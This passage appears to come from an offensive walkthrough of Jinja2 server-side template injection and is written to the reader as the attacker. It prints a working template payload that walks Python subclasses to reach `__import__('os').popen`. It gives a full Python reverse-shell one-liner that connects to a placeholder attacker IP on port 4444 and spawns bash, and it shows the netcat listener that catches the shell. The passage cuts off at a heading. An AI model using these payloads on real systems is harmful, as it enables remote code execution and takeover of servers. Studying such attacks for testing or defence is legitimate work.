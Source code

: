 ```
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{% endraw %}
```

Here, the payload loops through all subclasses available from Python’s base object class and specifically filters subclasses containing the word "warning." Warning-related classes like `catch_warnings` expose internal built-in functions, essential for importing modules and executing commands.

#### Step 3: Accessing Built-in Functions to Execute Commands

```
{{ x()._module.__builtins__['__import__']('os').popen("...") }}
```

Once the appropriate warning class is identified, its internal `_module.__builtins__` dictionary is used to access Python's built-in `__import__` function. This enables the import of the `os` module and subsequent execution of system commands through `popen()`.

#### Step 4: Reverse Shell Command Explained

Here’s the exact Python command executed through `popen()`:

```
python3 -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("ip",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
subprocess.call(["/bin/bash","-i"]);'
```

Let's break it down clearly:

* A socket is created for network communication.
* It connects back to your attacker machine (`ip`) on port `4444`.
* `os.dup2()` redirects standard input, output, and error streams directly to this socket.
* Finally, an interactive bash shell is spawned using `subprocess.call()`.

This results in a reverse shell connection to your attacking machine.

#### Step 5: Preparing Your Listener

To capture the reverse shell, you must first set up a listener on your attacker machine:

```
nc -lvnp 4444
```

This command listens for incoming connections on port `4444` and grants immediate shell access when the payload executes.

#### Ensuring an Interactive Shell
